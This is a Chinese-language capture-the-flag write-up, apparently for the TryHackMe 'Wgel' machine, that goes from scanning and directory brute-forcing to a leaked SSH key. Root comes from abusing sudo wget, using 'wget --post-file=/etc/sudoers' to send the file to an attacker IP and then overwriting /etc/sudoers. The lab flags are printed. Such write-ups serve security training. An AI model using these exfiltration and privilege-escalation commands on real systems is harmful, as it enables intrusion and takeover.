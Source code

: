 #服务发现
```
┌──(root💀kali)-[~]
└─# nmap -sV -Pn 10.10.106.99    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-25 23:41 EDT
Nmap scan report for 10.10.106.99
Host is up (0.38s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.12 seconds
```


#目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -u http://10.10.106.99 -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-lowercase-2.3-medium.txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 207627

Error Log: /root/dirsearch/logs/errors-21-09-25_23-42-55.log

Target: http://10.10.106.99

[23:42:56] Starting: 
[23:42:58] 301 -  314B  - /sitemap  ->  http://10.10.106.99/sitemap/
[23:42:58] 200 -   11KB - /        
CTRL+C detected: Pausing threads, please wait...                              
                                               
Canceled by the user
```

sitemap是一个叫```UNAPP```的软件网站介绍页，继续对这个这个网站爆破目录

```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py  -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -u http://10.10.106.99/sitemap/

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 220521

Error Log: /root/dirsearch/logs/errors-21-09-26_02-39-06.log

Target: http://10.10.106.99/sitemap/

[02:39:07] Starting: 
[02:39:09] 200 -   21KB - /sitemap/
[02:39:09] 301 -  319B  - /sitemap/images  ->  http://10.10.106.99/sitemap/images/
[02:39:11] 301 -  316B  - /sitemap/css  ->  http://10.10.106.99/sitemap/css/
[02:39:12] 301 -  315B  - /sitemap/js  ->  http://10.10.106.99/sitemap/js/
[02:39:19] 301 -  318B  - /sitemap/fonts  ->  http://10.10.106.99/sitemap/fonts/
[02:44:16] 301 -  317B  - /sitemap/sass  ->  http://10.10.106.99/sitemap/sass/   
```


在about页面找到两个开发者的名字
```
Emily Turner
Adam Morris
```
做成一个可能的用户账号爆破ssh，用一个小字典，无果
```
emily
turner
emilyturner
adam
morris
adammorris
```

在http://10.10.106.99/首页源代码找到一行注释

```Jessie don't forget to udate the webiste```

确定一个用户名：```jessie```


在```http://10.10.106.99/sitemap/.ssh/```找到ssh登录秘钥
```
Index of /sitemap/.ssh
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	id_rsa	2019-10-26 09:24 	1.6K	 
Apache/2.4.18 (Ubuntu) Server at 10.10.106.99 Port 80

```

根据用户名和ssh登录秘钥，登录靶机，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/wgel]
└─# ssh -i id_rsa jessie@10.10.106.99 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

Last login: Sun Sep 26 11:59:45 2021 from 10.13.21.169
jessie@CorpOne:~$ find / -name user_flag.txt

find: ‘/var/cache/lightdm/dmrc’: Permission denied
find: ‘/var/cache/cups’: Permission denied
find: ‘/var/log/speech-dispatcher’: Permission denied
find: ‘/var/lib/apt/lists/partial’: Permission denied
find: ‘/var/lib/colord/.cache’: Permission denied
find: ‘/var/lib/snapd/void’: Permission denied
find: ‘/var/lib/snapd/cookie’: Permission denied
find: ‘/var/lib/udisks2’: Permission denied
find: ‘/var/lib/update-notifier/package-data-downloads/partial’: Permission denied
find: ‘/var/lib/lightdm-data/lightdm’: Permission denied
find: ‘/var/lib/lightdm’: Permission denied
find: ‘/var/lib/polkit-1’: Permission denied
/home/jessie/Documents/user_flag.txt


jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6

```

#查看sudo权限
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
#提权思路


通过wget我们事实上可以更换靶机上的任何文件，那么我们现在尝试替换```/etc/sudoers```文件，把```jessie  ALL=(root) NOPASSWD: /bin/bash```这一行添加到sudoers文件中，然后再覆盖掉靶机上的sudoers文件

这样我们就可以无需密码切换到root的bash

1，监听
```nc -lvnp 80 ```

2，发送
```sudo  -u root /usr/bin/wget --post-file=/etc/sudoers 10.13.21.169```

3,接收



把```/etc/sudoers```传回攻击机以备编辑
```sudo  -u root /usr/bin/wget --post-file=/etc/sudoers  10.13.21.169```

#编辑sudoers
```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(root) NOPASSWD: /bin/bash
```

#从靶机下载覆盖编辑好的sudoers文件，成功提权
```
jessie@CorpOne:~$ sudo /usr/bin/wget http://10.13.21.169:8000/sudoers -O /etc/sudoers
--2021-09-26 12:45:55--  http://10.13.21.169:8000/sudoers
Connecting to 10.13.21.169:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 863 [application/octet-stream]
Saving to: ‘/etc/sudoers’

/etc/sudoers        100%[========================================================================================================================================>]     863  --.-KB/s    in 0,001s  

2021-09-26 12:45:55 (1,54 MB/s) - ‘/etc/sudoers’ saved [863/863]

jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
    (root) NOPASSWD: /bin/bash
jessie@CorpOne:~$ sudo bash
root@CorpOne:~# cat /root/root_flag.txt 
b1b968b37519ad1daa6408188649263d
root@CorpOne:~# 
```